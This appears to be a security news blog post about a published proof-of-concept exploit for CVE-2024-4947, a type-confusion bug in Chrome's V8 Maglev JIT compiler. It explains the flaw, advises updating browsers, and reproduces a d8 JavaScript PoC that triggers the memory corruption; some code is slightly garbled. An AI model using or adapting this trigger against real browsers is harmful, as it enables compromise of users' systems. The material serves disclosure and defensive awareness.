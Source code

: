 ```yaml
---
layout: post
title: PoC Exploit Published for 0-day Vulnerability 
subtitle: Google Chrome
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [books, test]
author: Michel Cornejo
---
```


A proof-of-concept (PoC) exploit for a critical zero-day vulnerability (CVE-2024-4947) in Google Chrome has been made public.

The potential for exploitation of this vulnerability, which impacts the V8 JavaScript engine, has generated considerable apprehension among members of the cybersecurity community.

## Details Of CVE-2024-4947

he CVE-2024-4947 vulnerability arises from erroneous AccessInfo values assigned to module namespace objects within the V8 engine.

This vulnerability may cause type confusion in the Just-In-Time (JIT) compiler Maglev, which V8 utilizes.

Type confusion vulnerabilities manifest when an application declares a variable or object as one type but subsequently manipulates its type, as reported by GitHub. This can potentially result in security breaches and erratic behavior.

## Technical Breakdown

The matter transpires when the V8 engine processes AccessInfo for module namespace objects in an erroneous manner, leading to a misinterpretation of the types of these objects by the Maglev JIT compiler.

An assailant may exploit this misunderstanding to execute arbitrary code within the browser’s context, potentially resulting in a complete compromise of the system.

```javascript
// run with: /d8 --allow-natives-syntax --maglev --expose-gc --soft-abort --trace-deopt 22.mjs

import * as ns from "./22.mjs";

export let c = 0;

function to_fast(o) {
var dummy = {'unique':5};
dummy.proto = o;
dummy.proto = o; //OptimizeAsFastPrototype
}

to_fast(ns);

function store(target, v) {
target.c = v;
}

function createObject() {
let a = {};
a.i1 = 1;
a.i2 = 1;
a.i3 = 1;
a.i4 = 1;
// -----------------
for (let i = 0; i < 8; i++) {
a[p${i}] = 1;
}
return a;
}

function init() {
let a = createObject();
a.proto = ns;
// %DebugPrint(a);
return a;
}

(function() {
%PrepareFunctionForOptimization(store);
store(init(), 0);
%OptimizeMaglevOnNextCall(store);
store(init(), 0);
})();

function confuse_properties_map(arg) {
store(arg, 0x1);
}

let a = init();

let arr = [];

arr.push(1.1);

let arr2 = [{}];

confuse_properties_map(a);

gc();

// %DebugPrint(a);
// %DebugPrint(arr);

a.p5 = 1024;
a.p7 = 1024;

%DebugPrint(arr);

// %SystemBreak();
```
The PoC exploit illustrates how a malevolent actor can exploit this susceptibility to execute arbitrary code.

The methodology entails developing a malevolent webpage that, upon user interaction, activates the type confusion vulnerability in the V8 engine, thereby granting the assailant permission to execute illicit code on the target’s system.

![exploit]({{ '/assets/img/exploit.png' | relative_url }})

Considering the pervasive utilization of Google Chrome, this susceptibility presents a substantial hazard to users across the globe.

Users must immediately update their browsers to the most recent version whenever a security upgrade is available.

Organizations should also consider implementing additional security measures, such as intrusion detection systems and web application firewalls, to reduce the risk of exploitation.

A proof-of-concept exploit for CVE-2024-4947 has been made public, highlighting the persistent difficulties in securing contemporary web browsers.

Maintaining a state of constant vigilance and proactivity in the face of security threats is critical for both developers and users, as malicious actors persist in discovering and capitalizing on weaknesses in widely utilized software.